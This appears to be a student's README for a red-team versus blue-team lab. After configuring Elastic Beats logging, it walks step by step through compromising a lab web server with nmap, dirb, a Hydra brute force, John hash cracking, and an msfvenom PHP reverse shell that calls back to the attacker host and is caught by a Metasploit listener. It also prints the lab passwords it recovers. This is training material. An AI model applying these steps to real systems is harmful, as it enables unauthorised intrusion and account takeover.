





# Project 2
## RedTeam vs. BlueTeam


### Devices
- Kali
- Capstone
- Elk 

### Set Up Beats 
Need to set up beats in order to log the attacks. 

Steps to set up:
 - Log into Capstone
   - ```vagrant:tnargav```
 - ```sudo su```
 - ```filebeat modules enable apache```
 - ```filebeat setup```
 - ```metricbeat modules enable apache```
 - ```metricbeat setup```
 - ```packetbeat setup```
 - ```systemctl restart filebeat```
 - ```systemdtl restart metricbeat```
 - ```systemctl restart packetbeat```
  

### Attacking Capstone
- Determine capstone ip
  - First find kali ip
    - ```ifconfig```
    - 192.168.1.90
  - Run nmap against 192.168.1.1/24 
    - ```nmap 192.168.1.1/24```
    - Did not give enough information to determine what machine is which
    - 
    - ```nmap -sV 192.168.1.1/24```
      - 192.168.1.100 
        - Elastic Search | Ubuntu
      - 192.168.1.105
        - Apache | Ubuntu
      - 
- Open http://192.168.1.105
  - Try to find "secret" page
    - ```dirb http://192.168.1.105```
      - Returned
        - http://192.168.1.105/server-status
          - Access Forbidden
        - http://192.168.1.105/webdav
          - Username:Password Protected
    - ```dirb http://192.168.1.105/company_folders```
      - Returned 0
    - Scrolled through pages
      - Error file missing please refer to company_folders/secret_folder
       
- Run Hydra against http://192.168.1.105/company_folders_secret_folder
  - Find Wordlist
    - ```locate rockyou```
  - ```cd /usr/share/wordlists```
  - ```ls```
  - ```gunzip rockyou.txt.gz```
  - ```ls```
    - to verify successful unzip
  - ```hydra help```
    - To see all avaliable flags
  - Ashton manages secret folder
    - Means username is ashton 
  - ``` hydra -l ashton -P rockyou.txt -s 80  -f -vV 192.168.1.105 http-get /company_folders/secret_folder ```
    - ```ashton:leopoldo```
     
- Open connect to corp server
  - webdav
  - log in with ryans account
  - ryan password hash ``` d7dad0a5cd7c8376eeb50d69b3ccd352 ```
  - ``` echo d7dad0a5cd7c8376eeb50d69b3ccd352 > hash.txt ```
  - ```john hash.txt```
  - ```john -show hash.txt ```
    - ```ryan:linux4u```
- Upload reverse php to webdav
  - ```msfvenom -p php/reverse_php LHOST=192.168.1.90 LPORT=4445 -f raw > exploit.php```
    
- Create Listener
  - ```msf console```
    - ```use exploit multi/handler```
    - ``` set LHOST 192.168.1.90```
    - ``` set LPORT 4445```
    - ```set exploit php/reverse_php```
    - ```exploit```
     
- Open exploit.php in web to run on remote server
- Meterpreter session
  - ```cd /```
  - ```ls```
  - ```cat flag.txt```
   